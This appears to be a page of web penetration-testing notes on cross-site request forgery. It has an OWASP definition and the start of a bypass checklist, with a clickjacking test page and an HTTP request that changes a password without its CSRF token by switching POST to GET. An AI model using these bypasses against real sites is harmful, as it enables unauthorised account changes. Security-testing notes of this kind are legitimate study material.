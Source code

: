 ```yaml
---
description: 'CWE-352: Cross-Site Request Forgery (CSRF)'
---
```


# CSRF

## What it is ??

Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.

CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

## Methodology

![image](https://github.com/h0tak88r/Web\_Penetration\_Testing\_Notes/assets/108616378/f32ef6f7-cf71-4fbb-a95b-c598a20e2199)

## **CSRF** Bypasses

*   [ ] **ClickJacking**

    ```html
    <html>
     <head>
     <title>Clickjack test page</title>
     </head>
     <body>
     <p>This page is vulnerable to clickjacking if the iframe is not blank!</p>
     <iframe src="PAGE_URL" width="500" height="500"></iframe>
     </body>
    </html>
    ```
*   [ ] **Change Request Method**

    ```http
    # Request
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    (POST request body)
    new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
    --------------------------------------------

    # Bypass
    GET /password_change?new_password=abc123
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE
    ```
*   [ ] **Bypass CSRF Tokens stored on the server**
